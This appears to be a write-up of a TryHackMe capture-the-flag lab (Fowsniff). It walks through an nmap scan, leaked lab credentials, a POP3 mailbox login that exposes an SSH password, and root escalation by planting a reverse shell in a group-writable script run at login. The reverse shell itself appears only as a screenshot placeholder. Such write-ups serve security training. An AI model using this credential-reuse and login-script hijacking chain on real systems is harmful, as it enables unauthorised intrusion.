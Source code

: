 https://tryhackme.com/r/room/ctf
current ip 10.10.219.166

##### Osint
Twitter: https://twitter.com/fowsniffcorp?lang=fr
Leak: https://raw.githubusercontent.com/berzerk0/Fowsniff/main/fowsniff.txt
##### Nmap scan
`nmap -A -p- -sV ctf.thm` 

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-11 15:17 CEST
Nmap scan report for ctf.thm (10.10.238.25)
Host is up (0.054s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 90:35:66:f4:c6:d2:95:12:1b:e8:cd:de:aa:4e:03:23 (RSA)
|   256 53:9d:23:67:34:cf:0a:d5:5a:9a:11:74:bd:fd:de:71 (ECDSA)
|_  256 a2:8f:db:ae:9e:3d:c9:e6:a9:ca:03:b1:d7:1b:66:83 (ED25519)
80/tcp  open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Fowsniff Corp - Delivering Solutions
| http-robots.txt: 1 disallowed entry 
|_/
110/tcp open  pop3    Dovecot pop3d
|_pop3-capabilities: SASL(PLAIN) RESP-CODES USER TOP PIPELINING CAPA UIDL AUTH-RESP-CODE
143/tcp open  imap    Dovecot imapd
|_imap-capabilities: ENABLE LOGIN-REFERRALS OK ID listed more AUTH=PLAINA0001 capabilities SASL-IR have post-login Pre-login LITERAL+ IDLE IMAP4rev1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 55.76 seconds
```

##### User leaked
mauer@fowsniff:mailcall
mustikka@fowsniff:bilbo101
tegel@fowsniff:apples01
baksteen@fowsniff:skyler22
seina@fowsniff:scoobydoo2
stone@fowsniff:a92b8a29ef1183192e3d35187e0cfabd
mursten@fowsniff:carp4ever
parede@fowsniff:orlando12
sciana@fowsniff:07011972

##### POP3 connection via telnet
`telnet ctf.thm 110` 
`USER seina` 
`PASS scoobydoo2` 
`LIST` : list emails
`RETR id` : show the message

##### Seina message 1
```
Return-Path: <stone@fowsniff>
X-Original-To: seina@fowsniff
Delivered-To: seina@fowsniff
Received: by fowsniff (Postfix, from userid 1000)
        id 0FA3916A; Tue, 13 Mar 2018 14:51:07 -0400 (EDT)
To: baksteen@fowsniff, mauer@fowsniff, mursten@fowsniff,
    mustikka@fowsniff, parede@fowsniff, sciana@fowsniff, seina@fowsniff,
    tegel@fowsniff
Subject: URGENT! Security EVENT!
Message-Id: <20180313185107.0FA3916A@fowsniff>
Date: Tue, 13 Mar 2018 14:51:07 -0400 (EDT)
From: stone@fowsniff (stone)

Dear All,

A few days ago, a malicious actor was able to gain entry to
our internal email systems. The attacker was able to exploit
incorrectly filtered escape characters within our SQL database
to access our login credentials. Both the SQL and authentication
system used legacy methods that had not been updated in some time.

We have been instructed to perform a complete internal system
overhaul. While the main systems are "in the shop," we have
moved to this isolated, temporary server that has minimal
functionality.

This server is capable of sending and receiving emails, but only
locally. That means you can only send emails to other users, not
to the world wide web. You can, however, access this system via 
the SSH protocol.

The temporary password for SSH is "S1ck3nBluff+secureshell"

You MUST change this password as soon as possible, and you will do so under my
guidance. I saw the leak the attacker posted online, and I must say that your
passwords were not very secure.

Come see me in my office at your earliest convenience and we'll set it up.

Thanks,
A.J Stone
```
##### Seina message 2
```
Return-Path: <baksteen@fowsniff>
X-Original-To: seina@fowsniff
Delivered-To: seina@fowsniff
Received: by fowsniff (Postfix, from userid 1004)
        id 101CA1AC2; Tue, 13 Mar 2018 14:54:05 -0400 (EDT)
To: seina@fowsniff
Subject: You missed out!
Message-Id: <20180313185405.101CA1AC2@fowsniff>
Date: Tue, 13 Mar 2018 14:54:05 -0400 (EDT)
From: baksteen@fowsniff

Devin,

You should have seen the brass lay into AJ today!
We are going to be talking about this one for a looooong time hahaha.
Who knew the regional manager had been in the navy? She was swearing like a sailor!

I don't know what kind of pneumonia or something you brought back with
you from your camping trip, but I think I'm coming down with it myself.
How long have you been gone - a week?
Next time you're going to get sick and miss the managerial blowout of the century,
at least keep it to yourself!

I'm going to head home early and eat some chicken soup. 
I think I just got an email from Stone, too, but it's probably just some
"Let me explain the tone of my meeting with management" face-saving mail.
I'll read it when I get back.

Feel better,

Skyler

PS: Make sure you change your email password. 
AJ had been telling us to do that right before Captain Profanity showed up.
```

##### SSH connection
`ssh baksteen@10.10.219.166` with **S1ck3nBluff+secureshell** password
`groups` to see baksteen groups, **users** seems to be an additionnal group
`cat /etc/group | grep users` to see the **users** group id (100)
`find / -group 100 2> /dev/null` find file owned by **users** group => /opt/cube/cube.sh

![[Screenshot_2024-04-12_11-09-28.png]]

Seina in users group can write and execute `cube.sh` so if another file is executing `cube.sh` as sudo, we could be root

`find /etc/ -type f -exec grep "cube.sh" {} + 2>/dev/null`
Response:
![[Screenshot_2024-04-12_11-35-14.png]]

![[Screenshot_2024-04-12_11-36-13.png]]

00-header is executed as root, let's put a reverse shell in cube.sh to be executed as root when a user is connecting
![[Screenshot_2024-04-12_11-38-31.png]]

gg